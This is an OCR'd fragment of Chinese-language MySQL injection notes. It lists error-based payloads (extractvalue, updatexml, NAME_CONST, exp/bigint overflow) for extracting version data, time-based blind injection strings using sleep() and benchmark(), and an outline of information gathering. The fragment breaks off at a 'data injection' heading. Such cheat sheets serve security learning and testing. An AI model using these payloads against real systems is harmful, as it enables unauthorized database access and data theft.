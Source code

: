 Exp()为以 e 为底的对数函数；版本在 5.5.5 及其以上

★select !(select * from (select user())x) -（ps:这是减号） ~0 

bigint 超出范围；~0 是对 0 逐位取反，很大的版本在 5.5.5 及其以上

★extractvalue(1,concat(0x7e,(select @@version),0x7e))

extractvalue(目标xml文档，xml路径)

mysql 对 xml 数据进行查询和修改的 xpath 函数，xpath 语法错误 

★updatexml(1,concat(0x7e,(select @@version),0x7e),1) //mysql 对 xml 数据进行 

查询和修改的 xpath 函数，xpath 语法错误 

★select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x; 

mysql 重复特性，此处重复了 version，所以报错。 

总结函数

floor,extractvalue,updatexml

### 三、基于时间的SQL盲注——延时注入

if(ascii(substr(database(),1,1))>115,0,sleep(5))--+

判断语句，若条件为假，执行sleep



union select if(substring(current,1,1)=char(119),benchmark(5000,encode('MSG','by 5 seconds')),null) from (select database() as current) as tbl;

注：benchmark(count,expr)为测试函数性能，参数1为执行的次数，参数二为执行的表达式。此为边信道攻击，占用大量cpu资源，建议使用sleep()



总结函数

if,sleep



# MYSQL注入

## 信息收集

操作系统

数据库名

数据库用户

数据库版本

其他

## 数据注入
